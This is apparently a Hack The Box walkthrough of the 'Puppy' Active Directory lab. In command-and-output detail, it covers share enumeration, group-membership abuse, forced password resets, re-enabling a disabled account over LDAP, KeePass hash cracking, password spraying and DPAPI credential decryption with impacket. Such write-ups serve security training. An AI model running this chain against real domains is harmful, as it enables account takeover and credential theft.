




# HTB-puppy

We will begin this machine by scanning for all open ports and performing script and service scanning:

```
nmap -p0-65535 -sCV 10.129.232.75
```
### Results

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-17 15:35:51Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
54055/tcp open  msrpc         Microsoft Windows RPC
```

Based on the nmap output, this is likely a Domain Controller, as DNS, Kerberos and LDAP are all running on the machine.

## levi.james -> ant.edwards

Firstly, reading the Hack the Box machine information reveals the following:

```
As is common in real life pentests, you will start the Puppy box with credentials for the following account: levi.james / KingofAkron2025!
```

Therefore, we will check if our credentials work for SMB.

#### Run crackmapexec:

```
crackmapexec smb 10.129.232.75 -u levi.james -p 'KingofAkron2025!'
```

#### Output:

```
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
```

As can be seen above, our credentials work with SMB. Building on this, we will check which shares give us read or write access:

```
crackmapexec smb 10.129.232.75 -u levi.james -p 'KingofAkron2025!' --shares
```

#### Output:

```
SMB         10.129.232.75   445    DC               Share           Permissions     Remark
SMB         10.129.232.75   445    DC               -----           -----------     ------
SMB         10.129.232.75   445    DC               ADMIN$                          Remote Admin
SMB         10.129.232.75   445    DC               C$                              Default share
SMB         10.129.232.75   445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.129.232.75   445    DC               IPC$            READ            Remote IPC
SMB         10.129.232.75   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.232.75   445    DC               SYSVOL          READ            Logon server share 
```

However, as can be seen, we do not have read access to the unique DEV share:

```
smbclient -U 'levi.james%KingofAkron2025!' \\\\10.129.232.75\\DEV
```

When we try to list the share, we get an access denied message:

```
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

Next, we will bring our attention to Bloodhound:

#### Running Bloodhound-python:

```
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -ns 10.129.232.75 -d puppy.htb -c all --zip
```

#### Starting Bloodhound:

```
bloodhound
```

In Bloodhound, we perform an analysis of Group Delegated Object Control on the levi.james user, which reveals the following graph:



As shown above, we inherit the permissions of the HR group, which has GenericWrite privileges over the developers group. The Linux abuse information tells us that we can add a user to the developers group, like so:

#### Run net rpc:

```
net rpc group addmem "developers" "levi.james" -U "puppy.htb"/"levi.james"%"KingofAkron2025!" -S "10.129.232.75"
```

#### Check group members:

```
net rpc group members "developers" -U "puppy.htb"/"levi.james"%"KingofAkron2025!" -S "10.129.232.75"
```

#### Output:

```
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams
```

Interestingly, elevating our privileges in this way gives us read access to the DEV share from earlier:


```
crackmapexec smb 10.129.232.75 -u levi.james -p 'KingofAkron2025!' --shares
```

#### Output:

```
SMB         10.129.232.75   445    DC               Share           Permissions     Remark
SMB         10.129.232.75   445    DC               -----           -----------     ------
SMB         10.129.232.75   445    DC               ADMIN$                          Remote Admin
SMB         10.129.232.75   445    DC               C$                              Default share
SMB         10.129.232.75   445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.232.75   445    DC               IPC$            READ            Remote IPC
SMB         10.129.232.75   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.232.75   445    DC               SYSVOL          READ            Logon server share
```

Logging into the share, we find recovery.kdbx and download it to our local machine:

#### Logging into DEV:

```
smbclient -U 'levi.james%KingofAkron2025!' \\\\10.129.232.75\\DEV
```

####  Listing share contents:

```
smb: \> ls
  .                                  DR        0  Sun Mar 23 03:07:57 2025
  ..                                  D        0  Sat Mar  8 11:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
  Projects                            D        0  Sat Mar  8 11:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025

		5080575 blocks of size 4096. 1644940 blocks available
```

#### Downloading recovery.kdbx:

```
smb: \> get recovery.kdbx 
getting file \recovery.kdbx of size 2677 as recovery.kdbx (9.1 KiloBytes/sec) (average 9.1 KiloBytes/sec)
```

Now we will attempt to extract the keepass hash from recovery.kdbx:

```
keepass2john recovery.kdbx
```

#### Output:

```
! recovery.kdbx : File version '40000' is currently not supported!
```

Unfortunately the john database is out of date. We will therefore need to update john before continuing:

#### Updating John the Ripper:

```
cd /opt && git clone https://github.com/openwall/john.git && cd john/src && ./configure && make -s clean && make -sj4
```

Now we are able to extract the keepass hash from recovery.kdbx:

#### Extracting keepass hash:

```
/opt/john/run/./keepass2john /home/candidbandit/recovery.kdbx > kdbx_hash.txt
```

#### Cracking hash with john:

```
/opt/john/run/john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt kdbx_hash.txt 
```

#### Output:

```
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Failed to use huge pages (not pre-allocated via sysctl? that's fine)
liverpool        (recovery)     
1g 0:00:00:07 DONE (2026-10-17 05:28) 0.1290g/s 4.645p/s 4.645c/s 4.645C/s purple..liverpool
```

Success! We have found the password 'liverpool'. Next, we will need to open the KeePass database:

#### Opening KeePass database:

```
apt install keepassxc -y
keepassxc recovery.kdbx
```

And now, we will log into the application using 'liverpool' as the password:



Now we have access to a set of usernames and passwords, which we will now extract:



#### users.txt:

```
adam.silver
ant.edwards
jamie.williams
samuel.blake
steve.tucker
```

#### passwords.txt:

```
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

Now, we can check for successful userpass combinations using crackmapexec:

#### Running crackmapexec:

```
crackmapexec smb 10.129.232.75 -u users.txt -p passwords.txt --continue-on-success | grep + 
```

#### Output:

```
SMB                      10.129.232.75   445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
```

Success! We have found ant.edwards SMB password.

## ant.edwards -> adam.silver

Looking again at Bloodhound, we can see that ant.edwards is a member of Senior Devs, and Senior Devs has GenericAll over adam.silver:

#### Bloodhound:



There are a few abuse options we have, but I opted for Force Change Password, of the adam.silver user:

#### Force Change Password:

```
net rpc password "adam.silver" "ChangeMe123!" -U "puppy.htb"/"ant.edwards"%"Antman2025!" -S "10.129.232.75"
```

#### Check user login:

```
crackmapexec smb 10.129.232.75 -u adam.silver -p 'ChangeMe123!'
```

#### Output:

```
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\adam.silver:ChangeMe123! STATUS_ACCOUNT_DISABLED 
```

As we can see above, adam.silver's password has been changed successfully, but the account is disabled.

To bypass this we can use an LDIF file and reactivate the account over LDAP:

#### Create LDIF file:

```bash
cat > enable.ldif <<'EOF'                                 
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
EOF
```

#### Use ldapmodify:

```
ldapmodify -x -H ldap://10.129.232.75 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -f enable.ldif
```

#### Output:

```
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```

#### Testing SMB access:

```
crackmapexec smb 10.129.232.75 -u adam.silver -p 'ChangeMe123!'
```

#### Output:

```
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\adam.silver:ChangeMe123! 
```

We have now re-enabled adam.silver's account and can now log into the DC using evil-winrm:

```
evil-winrm -i 10.129.232.75 -u  adam.silver -p 'ChangeMe123!'
```

## adam.silver -> steph.cooper

Once we are logged into the DC as adam.silver, we begin enumeration of the machine's files and directories. Eventually, we notice a Backups folder in the C:\ directory. We will navigate to C:\Backups and download the file site-backup-2024-12-30.zip:

```
cd C:/backups
download site-backup-2024-12-30.zip
```

#### Output:

```
Info: Downloading C:\backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
                                        
Info: Download successful!
```

Then on our attacker host, we will extract the zip file contents, and then run grep to search for possible passwords:

```
unzip site-backup-2024-12-30.zip
grep -ir pass .
```

#### Output:

```
./puppy/nms-auth-config.xml.bak:        <bind-password>ChefSteph2025!</bind-password>
```

We have found the password for steph.cooper: ChefSteph2025!

Now let's log back into the machine using evil-winrm:

```
evil-winrm -i 10.129.232.75 -u steph.cooper -p ChefSteph2025!
```

We are now steph on the DC.

## steph.cooper -> steph.cooper_adm

At this point I caved in and required a walkthrough. Interestingly, the path is to extract DPAPI credentials, located in the following folders, as explained by 0xdf, we will need to convert them into Base64, as downloading them does not work:

#### Extract cred:

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\steph.cooper\appdata\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9'))
```

#### Save to local file:

```
echo -n "AQAAAJIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAEiRqVXUSz0y3IeagtPkEBwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAAHEb7RgOmv+9Na4Okf93s5UAAAAABIAAAKAAAAAQAAAACtD/ejPwVzLZOMdWJSHNcNAAAAAxXrMDYlY3P7k8AxWLBmmyKBrAVVGhfnfVrkzLQu2ABNeu0R62bEFJ0CdfcBONlj8Jg2mtcVXXWuYPSiVDse/sOudQSf3ZGmYhCz21A8c6JCGLjWuS78fQnyLW5RVLLzZp2+6gEcSU1EsxFdHCp9cT1fHIHl0cXbIvGtfUdeIcxPq/nN5PY8TR3T8i7rw1h5fEzlCX7IFzIu0avyGPnrIDNgButIkHWX+xjrzWKXGEiGrMkbgiRvfdwFxb/XrET9Op8oGxLkI6Mr8QmFZbjS41FAAAADqxkFzw7vbQSYX1LftJiaf2waSc" | base64 -d -w 0 > C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

#### Extract key:

```
[Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Users\steph.cooper\appdata\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407'))
```

#### Save to local file:

```
echo -n "AgAAAAAAAAAAAAAANQA1ADYAYQAyADQAMQAyAC0AMQAyADcANQAtADQAYwBjAGYALQBiADcAMgAxAC0AZQA2AGEAMABiADQAZgA5ADAANAAwADcAAABqVXUSz0wAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAAsj8xITRBgEgAZOArghULmlBGAAAJgAAAA2YAAPtTG5NorNzxhcfx4/jYgxj+JK0HBHMu8jL7YmpQvLiX7P3r8JgmUe6u9jRlDDjMOHDoZvKzrgIlOUbC0tm4g/4fwFIfMWBq0/fLkFUoEUWvl1/BQlIKAYfIoVXIhNRtc+KnqjXV7w+BAgAAAIIHeThOAhE+Lw/NTnPdszJQRgAACYAAAANmAAAnsQrcWYkrgMd0xLdAjCF9uEuKC2mzsDC0a8AOxgQxR93gmJxhUmVWDQ3j7+LCRX6JWd1L/NlzkmxDehild6MtoO3nd90f5dACAAAAAAEAAFgAAADzFsU+FoA2QrrPuakOpQmSSMbe5Djd8l+4J8uoHSit4+e1BHJIbO28uwtyRxl2Q7tk6e/jjlqROSxDoQUHc37jjVtn4SVdouDfm52kzZT2VheO6A0DqjDlEB19Qbzn9BTpGG4y7P8GuGyN81sbNoLN84yWe1mA15CSZPHx8frov6YwdLQEg7H8vyv9ZieGhBRwvpvp4gTur0SWGamc7WN590w8Vp98J1n3t3TF8H2otXCjnpM9m6exMiTfWpTWfN9FFiL2aC7Gzr/FamzlMQ5E5QAnk63b2T/dMJnp5oIU8cDPq+RCVRSxcdAgUOAZMxPs9Cc7BUD+ERVTMUi/Jp7MlVgK1cIeipAl/gZz5asyOJnbThLa2ylLAf0vaWZGPFQWaIRfc8ni2iVkUlgCO7bI9YDIwDyTGQw0Yz/vRE/EJvtB4bCJdW+Ecnk8TUbok3SGQoExL3I5Tm2a/F6/oscc9YlciWKEmqQ=" | base64 -d -w 0 > 556a2412-1275-4ccf-b721-e6a0b4f90407
```

Next, we must use impacket's DPAPI module to extract the decrypted key:

#### Extract key:

```
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
```

#### Output:

```
[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

Now, we will use the decrypted key to decrypt the password:

#### Extract credential:

```
impacket-dpapi credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

#### Output:

```
[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

Finally, we have the password for steph.cooper_adm. We will therefore log into the machine using evil-winrm, like so:

```
evil-winrm -i 10.129.232.75 -u steph.cooper_adm -p FivethChipOnItsWay2025!
```

And with that, we have completed the machine.
